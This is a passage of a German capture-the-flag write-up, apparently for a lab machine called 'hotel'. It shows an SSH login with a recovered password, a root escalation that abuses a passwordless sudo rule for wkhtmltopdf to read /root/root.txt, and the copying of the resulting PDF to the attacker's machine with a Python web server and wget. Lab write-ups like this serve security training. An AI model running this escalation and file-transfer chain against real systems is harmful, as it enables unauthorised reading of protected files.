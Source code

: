 3.  **SSH-Login als `person`:**
    *   Mit dem Passwort `Endur4nc3.` wurde ein SSH-Login als `person` durchgeführt:
        ```bash
        ssh person@192.168.2.116
        # Passwort: Endur4nc3.
        ```
    *   Zugriff als `person` wurde erlangt. Die User-Flag `RUvSNcQ3m2yHzxHMV` wurde in `/home/person/user.txt` gefunden.

### person zu root (Sudo/wkhtmltopdf)

1.  **Sudo-Rechte-Prüfung für `person`:**
    *   `person@hotel:~$ sudo -l` zeigte:
        ```
        User person may run the following commands on hotel:
            (root) NOPASSWD: /usr/bin/wkhtmltopdf
        ```
2.  **Ausnutzung von `sudo wkhtmltopdf`:**
    *   Der Benutzer `person` konnte `/usr/bin/wkhtmltopdf` als `root` ohne Passwort ausführen. Dies wurde genutzt, um den Inhalt von `/root/root.txt` in eine PDF-Datei zu schreiben:
        ```bash
        sudo wkhtmltopdf /root/root.txt root.pdf
        ```
    *   Die erstellte `root.pdf` wurde zum Angreifer-System übertragen (mittels `python3 -m http.server` und `wget`).
    *   Das Öffnen der PDF-Datei enthüllte die Root-Flagge.

---

## Proof of Concept (Root Access via Sudo wkhtmltopdf)

**Kurzbeschreibung:** Die finale Privilegieneskalation von `person` zu `root` erfolgte durch eine unsichere `sudo`-Regel. Diese erlaubte `person`, `/usr/bin/wkhtmltopdf` als `root` ohne Passwort auszuführen. `wkhtmltopdf` kann lokale Dateien lesen. Durch Angabe von `/root/root.txt` als Eingabedatei wurde deren Inhalt in eine für `person` lesbare PDF-Datei geschrieben.

**Schritte (als `person`):**
1.  Führe den folgenden Befehl aus, um den Inhalt von `/root/root.txt` in eine PDF zu konvertieren:
    ```bash
    sudo wkhtmltopdf /root/root.txt root.pdf
    ```
2.  Übertrage die Datei `root.pdf` auf das Angreifer-System (z.B. via `python3 -m http.server 8888` auf dem Ziel und `wget http://[Ziel-IP]:8888/root.pdf` auf dem Angreifer-System).
3.  Öffne die PDF-Datei oder extrahiere den Text (z.B. mit `pdftotext root.pdf -`), um die Root-Flagge zu lesen.

**Ergebnis:** Die Root-Flagge (`7MUnADgp3g4STEPHMV`) wird preisgegeben.

---

## Flags
